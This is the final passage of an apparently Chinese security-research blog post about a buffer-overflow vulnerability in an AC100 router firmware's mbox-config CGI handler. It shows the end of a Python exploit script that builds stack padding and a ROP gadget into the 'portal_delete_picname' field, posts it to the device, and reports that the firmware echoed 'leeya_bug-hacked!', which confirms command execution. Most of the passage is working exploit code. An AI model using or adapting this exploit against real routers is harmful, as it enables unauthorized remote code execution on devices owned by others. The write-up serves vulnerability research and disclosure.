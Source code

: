 ```py
	data0 += b'A' * 0x64								# stack padding

	#gadget 3
	data0 += (0x47C010).to_bytes(3, 'little')			# return
	
	data = b'{"portal_delete_picname":"' + data0 + b'"}'
	#data = b'{"portal_delete_picname":"1"}'
	print(requests.post("http://" + host + "/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file", data = data).text)

Vul4_AC100("192.168.20.101")

```

一运行，果然固件提示 `leeya_bug-hacked!`，成功运行 `echo leeya_bug-hacked!`

证明利用链构造成功

![/image/cfac100/3.png](/image/cfac100/15.png) 

本文章不遵循 CC 协议，除开特别说明标注，该文章未经许可禁止转载